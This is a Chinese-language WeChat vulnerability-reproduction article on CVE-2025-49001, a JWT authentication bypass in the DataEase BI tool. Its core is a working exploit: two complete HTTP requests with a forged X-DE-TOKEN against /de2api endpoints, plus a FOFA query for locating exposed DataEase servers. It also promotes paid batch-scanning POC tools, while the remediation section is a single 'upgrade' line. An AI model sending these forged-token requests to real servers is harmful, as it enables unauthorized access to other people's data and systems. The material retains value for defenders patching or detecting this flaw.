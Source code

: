 #  Dataease JWT 认证绕过导致未授权访问漏洞CVE-2025-49001 附POC  
2025-6-9更新  南风漏洞复现文库   2025-06-09 15:39  
  
   
  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. Dataease简介  
  
微信公众号搜索：南风漏洞复现文库  
该文章 南风漏洞复现文库 公众号首发  
  
Dataease  
## 2.漏洞描述  
  
DataEase是一款开源的商业智能和数据可视化工具。CVE-2025-49001 中，由于JWT算法实现存在缺陷，导致攻击者可以使用任何secret来伪造JWT令牌，从而绕过权限校验调用后台相关功能接口，甚至造成代码执行。  
  
CVE编号:CVE-2025-49001  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
Dataease  
  
![Dataease JWT 认证绕过导致未授权访问漏洞](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3ZtQbFERSK2fjuIiaSsyCYfmaMWoriaXBsKibTqJibf8LqmRVIldZjWkP5Se7Iia9vyTV8D4ogpSKXh0zQ/640?wx_fmt=png&from=appmsg "null")  
  
Dataease JWT 认证绕过导致未授权访问漏洞  
## 4.fofa查询语句  
  
title="DataEase"  
## 5.漏洞复现  
  
漏洞链接：http://xx.xx.xx.xx/de2api/user/info  
  
漏洞数据包：  
```
GET /de2api/user/info HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: application/json, text/plain, */*
Connection: close
Host: xx.x.xx.xx
out_auth_platform: default
X-DE-TOKEN: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1aWQiOjEsIm9pZCI6MX0.a5QYOfZDYlhAy-zUMYzKBBvCUs1ogZhjwKV5SBTECt8


```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZtQbFERSK2fjuIiaSsyCYfmBlrcwOHQZywcPpwkgKdtVZxiaKIYG5wePDl0kZXRp8CXYcLP7jdY9Ig/640?wx_fmt=jpeg&from=appmsg "null")  
  
```
GET /de2api/license/version HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: application/json, text/plain, */*
Connection: close
Host: xx.x.xx.xx
out_auth_platform: default
X-DE-TOKEN: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1aWQiOjEsIm9pZCI6MX0.a5QYOfZDYlhAy-zUMYzKBBvCUs1ogZhjwKV5SBTECt8


```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZtQbFERSK2fjuIiaSsyCYfmSOEdCX7yXdibYbRStoplftJYuIGenx29Z9K5C8iaBTiaRwE4Gfx1uricUQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全  
1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。  
2: 免登录，免费fofa查询。  
3: 更新其他实用网络安全工具项目。  
4: 免费指纹识别，持续更新指纹库。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZtQbFERSK2fjuIiaSsyCYfmGFPnOy5PibWhQgcAT4z1wicwibVsdpfMHl2SiaHw9ibelRENH5MZdLOaeqQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZtQbFERSK2fjuIiaSsyCYfmQfDMrgQhl5QslHx6I7xxGQcGkRGDWtW583CHUqicNB6nmVXMAfoUuiag/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZtQbFERSK2fjuIiaSsyCYfm5oIp5lYrPxZuAyibyxGLWF7IpAhEQKj7icm8yyEr2piaP88EewdFRnmbg/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZtQbFERSK2fjuIiaSsyCYfmQUopGDu2ric83ibGnLalI9nKibGiaceWibQuAFwPwShSVSk3xySicfq6Wu3w/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZtQbFERSK2fjuIiaSsyCYfmrdLQkNNeG1GETLE49ibsMoAEWxXO74Vibpgl4C4hlFF5bs7XAoSKZHmw/640?wx_fmt=jpeg&from=appmsg "null")  
  
## 7.整改意见  
  
升级至最新版本。  
## 8.往期回顾  
  
  
   
  
  
  
